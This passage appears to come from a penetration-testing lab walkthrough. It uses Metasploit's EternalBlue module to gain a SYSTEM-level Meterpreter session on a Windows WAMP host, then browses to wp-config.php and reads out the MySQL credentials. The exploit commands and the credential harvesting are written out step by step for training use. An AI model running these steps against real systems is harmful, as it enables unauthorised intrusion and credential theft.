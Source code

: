 We can use PsExec or we can utilize EternalBlue.

```
msfconsole
search eternalblue
use 0
show options
set RHOSTS 10.0.25.212
exploit
```

And we should get an elevated Meterpreter session on the target system that will allow us to download the phpMyAdmin config file, modify it, and then upload the new modified version.

We get an Meterpreter session.

```
meterpreter > sysinfo
meterpreter > getuid
Server username: AUTHORITY\SYSTEM
```

In certain cases, in order to modify files that belong to applications like WAMP, you will need elevated privileges in order to do that. And in this case, we do. So we can take advantage of that.

The WAMP stack for Windows typically stores the web applications that are being hosted on it as well as the configuration files for them within the C drive in a folder called "wamp".

```
meterpreter > cd /
meterpreter > ls
meterpreter > pwd
meterpreter > cd wamp\\
meterpreter > ls
```

Under apps, that's typically where you'll find your web applications. Alternatively, they could be under www.

```
meterpreter > cd www\\
meterpreter > ls
```

We could have obtained the MySQL credentials by taking a look at the wordpress config file. That file typically contains the MySQL database passwords. 

```
meterpreter > cd wordpress\\
meterpreter > cat wp-config.php
```

```php
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', '');
```

That's where the apps are stored.
